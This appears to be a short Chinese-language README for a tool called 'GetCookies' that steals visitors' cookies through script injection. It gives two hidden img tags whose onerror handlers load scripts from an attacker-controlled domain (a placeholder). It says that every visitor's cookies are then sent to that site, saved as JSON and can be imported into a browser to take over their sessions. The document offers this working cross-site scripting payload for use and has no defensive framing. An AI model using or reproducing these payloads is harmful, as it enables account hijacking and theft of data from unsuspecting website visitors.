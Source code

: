 # GetCookies
要通过脚本注入，获取用户的Cookie

首先在可以注入的页面加上两个img标签：
<img src="a" style="display:none;" onerror="s=createElement('script');body.appendChild(s);s.src='http://你的域名/Scripts/jquery-1.11.3.min.js';">
<img src="b" style="display:none;" onerror="s=createElement('script');body.appendChild(s);s.src='http://你的域名/Scripts/JavaScript1.js';">
然后只要用户进入这个页面，就会把Cookie信息发送到该网站里，并且程序会将收集到的Cookie写到文件里，以JSON格式。
可以使用Chrome的EditThisCookie插件直接导入。
